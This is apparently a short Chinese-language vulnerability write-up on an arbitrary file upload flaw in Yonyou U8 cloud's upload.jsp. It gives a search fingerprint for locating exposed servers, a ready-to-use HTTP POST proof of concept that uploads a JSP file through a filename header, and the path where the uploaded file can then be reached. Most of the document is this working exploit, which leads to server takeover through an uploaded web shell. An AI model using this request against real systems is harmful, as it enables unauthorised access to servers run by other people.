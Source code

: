 # 用友 U8 cloud upload.jsp 任意文件上传漏洞

# 用友 U8 cloud upload.jsp 任意文件上传漏洞

## 漏洞描述

用友 U8 cloud upload.jsp 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

用友 U8 cloud

## 网络测绘

```
"开启U8 cloud云端之旅"
```

## 漏洞复现

登陆页面

![image-20231116141405041](images/image-20231116141405041.png)

poc

```
POST /linux/pages/upload.jsp HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
filename: Test.jsp
Accept-Encoding: gzip

<% out.println("Test");%>
```

![image-20231116141354722](images/image-20231116141354722.png)

```
/linux/Test.jsp
```


